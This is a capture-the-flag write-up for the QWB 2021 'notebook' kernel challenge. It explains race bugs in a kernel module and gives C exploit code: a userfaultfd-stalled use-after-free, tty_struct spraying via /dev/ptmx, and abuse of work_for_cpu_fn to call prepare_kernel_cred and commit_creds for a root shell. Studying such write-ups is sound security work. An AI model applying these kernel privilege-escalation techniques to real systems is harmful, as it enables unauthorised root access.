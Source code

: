 # QWB 2021 notebook

*uffd*	*tty_struct*	*work_for_cpu_fn*	*race*	*improper lock*



## Vulnerability

​	Inside of the `noteedit` function, there are some obviously abnormal function invokes and control flow arrangements.

1. `noteedit` only applies for a read lock to edit a notebook entry
2. the `size` parameter of a notebook entry was mofidifed before its pointer was renewed without any check against the new size value
3. the `copy_from_user` was invoked after the `krealloc`, and before the pointer of the entry was renewed



​	These abnormality clearly indicates vulnerability. Combining with other functions, there are multiple ways to achieve UAF or double-free. Here is one example

> 1. `noteadd` a entry
> 2. `noteedit` its size to any size we want
> 3. `noteedit` its size to 0, which equals a `free` invoke, then hang the kernel execution at `copy_from_user` with UFFD



​	As the pointer value was not renewed by the time the kernel execution was hanged, the pointer of the notebook entry now points to a freed SLAB chunk, resulting to UAF.

​	As there is a `_check_object_size` at `mynote_read` and `mynote_write`, write and read to the UAF chunk will fail for the `size` parameter was now 0. We need to find a way to bypass it.

​	Look close into `noteadd`, there are also obvious abnormalities.

1. the `size` of the entry is renewd before checking if the entry was empty.
2. there is a strange `copy_from_user` invoke before checking if the entry is empty.



​	So, we may revise the size of the UAF entry by invoking `noteadd` and hang the kernel execution at `copy_from_user`. This changes the `size` parameter of the entry to normal value, and the `_check_object_size` will report no error when the UAF chunk was written or read, giving us a standard UAF vulnerability for later exploitation.

​	As mentioned, there are multiple ways to achieve UAF, it's not the important how you did it. The interesting part is how to exploit it.

​	There is at least three ways to exploit the UAF

1. hijack a tty_struct and use the fancy funtion `work_for_cpu_fn`
2. hijack a tty_struct and do a kernel rop
3. revise `modprobe_path`



## Exploit 1: hijack tty_struct and work_for_cpu_fn

### causing UAF

​	This should be the easiest exploitation. The tty_struct hijacking part is quite traditional.

1. `noteadd` a size 0x60 chunk, then `noteedit` its size to 0x2e0
2. `noteedit` its size to 0, then hang the kernel execution, causing a UAF
3. `noteadd` its size to 0x60 to bypass the `_check_object_size`
4. spray the kernel with tty_struct by opening `/dev/ptmx`
5. after we get a tty_struct, we change its *tty_ops*. We can fake the tty_ops in another notebook entry



​	During the spraying, we can varify if we get a tty_struct by `mynote_read` the chukn and check the tty_struct magic number. And we may use `sched_setaffinity()` to increase the probability.

```c
    bind_cpu(); // significantly increase UAF possibility 
    noteadd(0, 0x20, buf);  // hijack tty_struct
    noteedit(0, 0x2e0, buf);
    hang_mem = get_mem_hang(1);
    RegisterUserfault(hang_mem, 1, userfaultfd_hang_handler);
    pthread_t edit_thread_t, add_thread_t;
    pthread_create(&edit_thread_t, NULL, edit_thread, NULL);
    sleep(1);   // must sleep enough long time
    pthread_create(&add_thread_t, NULL, add_thread, NULL);  // to bypass check_object_size
    sleep(1);
    int spray_fd[0x100];
    for(int i=0;i<0x100;i++){
        // spray the kernel with tty struct
        spray_fd[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        read(notebook_fd, buf, 0);
        if(*(int*)buf == 0x5401){
            puts("[*] tty_struct get");
            victim_fd = spray_fd[i];
            break;
        }
    }
    if(*(int*)buf != 0x5401) ErrExit("[-] get tty struct fail");
```



### the fancy function: `work_for_cpu_fn`

​	After we control a tty_struct, we may control the RIP for one time. The traditional exploitation is to hijack `ioctl` then transfer the kernel stack to somewhre we control and place a rop chain there, do `commit_cred(prepare_kernel_creds)` then `swapgs_restore_regs_and_return_to_usermode`. 

​	However, it is always hard work to find a proper gadget to transfer the kernel stack, and we are unlucky this time for there is actually no gadget I could find to transfer the stack this way. The kernel ROP can be achieved anyway, but absolutely not that easy.

​	The function `work_for_cpu_fn` was new for me too. It exists in system which turns on support for multi cores. The prototype is

```c
static void work_for_cpu_fn(struct work_struct *work)
{
	struct work_for_cpu *wfc = container_of(work, struct work_for_cpu, work);

	wfc->ret = wfc->fn(wfc->arg);
}
```

and after compilation it becomes

```c
static void work_for_cpu_fn(size_t * args)
{
    args[6] = ((size_t (*) (size_t)) (args[4](args[5]));
}
```

it invokes `args[4]` with `args[5]` as its parameter and store the return value at `args[6]`. 

​	This is perfect in our case. If we hijack `ioctl` of the tty_struct to `work_for_cpu_fn`, by the time we invoke the `ioctl`, the args will the the address of the tty_struct. We can put a `prepare_kernel_creds` at `tty_struct[4]`, and a 0 at `tty_struct[5]`, then `work_for_cpu_fn` will do `prepare_kernel_creds(0)` and the return value --- the root cred struct --- will be placed at `tty_struct[6]`. The address of the cred struct can be read with `mynote_read`, and we do the trick again to invoke `commit_creds()`. 

​	Nothing else in the kernel was touched during this procedure. It is almost totally normal function invoke. So it's reasonable to expect the invoke the `ioctl` will always return cleanly. And this techniche is expected to be much more stable, universal and easy to implement than traditional kernel ROP. 

```c
    // prepare_kernel_cred
    read(notebook_fd, buf, 0);
    unsigned long *p = (unsigned long*)buf;
    p[3] = fake_seq_ops;
    p[4] = kernel_load_base + PREPARECRED;
    p[5] = 0;
    write(notebook_fd, buf, 0);
    ioctl(victim_fd, 0, 0);

    // commit_cred
    memset(buf, 0, 0x200);
    read(notebook_fd, buf, 0);
    p = (unsigned long*)buf;
    unsigned long cred = p[6];
    p[3] = fake_seq_ops;
    p[4] = kernel_load_base + COMMITCRED;
    p[5] = cred;
    printf("[*] ROOT cred struct @ 0x%lx\n", cred);
    write(notebook_fd, buf, 0);
    ioctl(victim_fd, 0, 0);

    system("/bin/sh");
```

